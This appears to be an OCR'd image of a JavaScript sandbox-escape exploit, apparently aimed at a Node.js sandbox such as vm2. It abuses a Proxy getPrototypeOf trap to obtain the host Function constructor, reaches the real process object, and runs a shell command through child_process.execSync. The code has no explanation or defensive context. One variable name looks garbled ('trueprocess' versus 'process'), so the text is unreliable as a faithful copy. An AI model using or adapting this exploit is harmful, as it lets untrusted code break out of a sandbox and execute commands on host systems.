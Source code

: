 ```
var process;
try{
Object.defineProperty(Buffer.from(""),"",{
value:new Proxy({},{
getPrototypeOf(target){
if(this.t)
throw Buffer.from;
this.t=true;
Object.getPrototypeOf(target);
}
})
});
}catch(e){
trueprocess = e.constructor("return process")();
}
process.mainModule.require("child_process").execSync("ls").toString()

```



